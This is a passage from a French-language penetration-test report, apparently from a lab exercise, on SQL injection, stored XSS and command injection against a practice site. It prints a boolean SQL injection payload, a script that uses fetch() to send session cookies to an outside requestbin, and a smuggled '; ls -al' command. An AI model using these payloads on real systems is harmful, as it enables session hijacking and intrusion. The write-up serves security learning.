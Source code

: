 
**Donc le site est bien vulnérable au SQL injection**

### 1.2 Url post
Sur l'url de la page d'un post, nous voyons le param **id** qui attend un entier, pour nous renvoyer l'article avec l'id correspondant. En mettant la chaine de caractères ``coucou``, le site nous répond : **" SELECT * FROM posts WHERE id = coucou ^ in "**
https://box-grp.num.pas.le.vrai/post?id=coucou
![coucou sql](<detection/sql injection post.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 25 : Injection coucou</p>

Nous obtenons ainsi la requête qui est faite à la base de données pour afficher les infos que nous pouvons voir. Un traitement et un message aurait dû apparaitre ici normalement.
En faisant plusieurs tests sur la valeur de l'id, nous sommes arrivés à la valeur suivante ``0 or 1=1 -- -``. Sachant bien que le post avec l'id 0 n'existe pas, on obtient bien une réponse de la part du serveur. Le post retourné est celui avec l'id 1 qu'on n'a pas demandé. On pourrait déduire qu'on a trouvé une vulnérabilité de type SQL injection Blind. Le serveur a traité notre requête comme vraie. Ne trouvant pas le post avec l'id 0, il nous a envoyé le premier post de la table *(celui avec l'id 1)*. Donc le post 1 est renvoyé lorsque la condition est vraie.

![sql blind](<detection/blind sql injection post.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 26 : Blind SQL INJECTION</p>

---
## <u style="color:#597795 ;">2. XSS - XSS stocké</u>
Dans la [page vault](#vault), nous avions trouvé une faille de type de xss. Cependant nous remarquons que quand nous rafraichissons la page, la boîte de dialogue réapparait. Il s'agit donc d'une faille de type **XSS-stored**. On pourrait donc recueillir quelques données stockés.
Utilisons le site [Pipe dream - request bin](https://pipedream.com/requestbin) pour recevoir des infos en mettant le code suivant :
```html
<script>fetch("https://endetx64qkla.x.pipedream.net/?"+ document.cookie)</script>
```
Nous recevons le cookie de session vers la page de redirection.
![xss stored](<detection/xss stored detected.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 27 : XSS stored</p>

---

## <u style="color:#597795 ;">3. Injection de commande</u>
### Dans la page admin system <a name="command_injection"></a>
Au niveau de la page [admin/system](#admin_system), nous pouvons injecter des commandes. Quand nous essayons de lister les contenu du dossier avec la commande : 
```bash
; ls -al
```
Nous obtenons la réponse sur l'image ci-dessous. 
![ls -al](<detection/injection ls -al.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 28 : Injection de commande</p>
